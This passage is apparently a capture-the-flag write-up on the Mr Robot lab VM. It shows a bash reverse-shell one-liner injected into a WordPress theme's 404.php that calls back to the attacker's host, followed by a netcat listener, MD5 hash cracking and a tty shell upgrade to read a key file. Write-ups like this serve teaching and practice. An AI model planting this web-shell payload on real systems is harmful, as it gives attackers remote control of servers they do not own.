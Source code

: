 ### WordPress Plugin: Reverse Shell

![A screenshot of a computer

Description automatically generated](data:image/png;base64...)This plugin allows the user to upload a file that contains a reverse shell payload. The reverse shell payload typically includes code that connects back to the attacker’s machine, establishing a remote shell session. To exploit this vulnerability, we need to find a vulnerable WordPress installation, often one with outdated plugins or themes. When browsing through the Administration Menu on the page, I did notice a page within the themes section that had a 404.php page.

Using this php page and editing the code could be a solution, and running the code by visiting the page. I code used in a plugin as this were as follows, modified with my Mr Robot VMs IP.

<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.3.2/443 0>&1'");
?>

Seven Layers(2024)

![A screenshot of a cell phone

Description automatically generated](data:image/png;base64...)I attempted to make use of this, navigating to the 404 page of the template and inserting the code above the pre-existing code. This should initiate a bash shell back to my Kali VM with the ip 192.168.3.2 on the port 443.

![A screenshot of a computer

Description automatically generated](data:image/png;base64...)I opened up a terminal window, and initiated a netcat listener (-l) on port 443 with verbose (-v) output, allowing for incoming connections, typically used for setting up a listener on a specific port for various networking tasks.

To initiate the code, I opened a non existing page, and by doing so I had access to a shell

![](data:image/png;base64...)![](data:image/png;base64...)

## Second Key Found

![A screenshot of a computer program

Description automatically generated](data:image/png;base64...)Navigating in the shell brings me to the home folder where I find the following two files, *key-2-of-3.txt* and *password.raw-md5*. To open the key file we need to gain access to the user robot. Trying to see if the password file has a known hash-value by searching existing databases on a separate box connected to the internet. By a quick search, it suggested the MD5 Hash-value could be the list of letters in the english alphabet *abcdefghijklmnopqrstuvwxyz*

![A screen shot of a computer

Description automatically generated](data:image/png;base64...)Attempting to log into robot with this password revealed the limitations of the initial shell, and I found a method from a user nwrzd (2019), to start a tty shell. From there we managed to open the second key text-file.
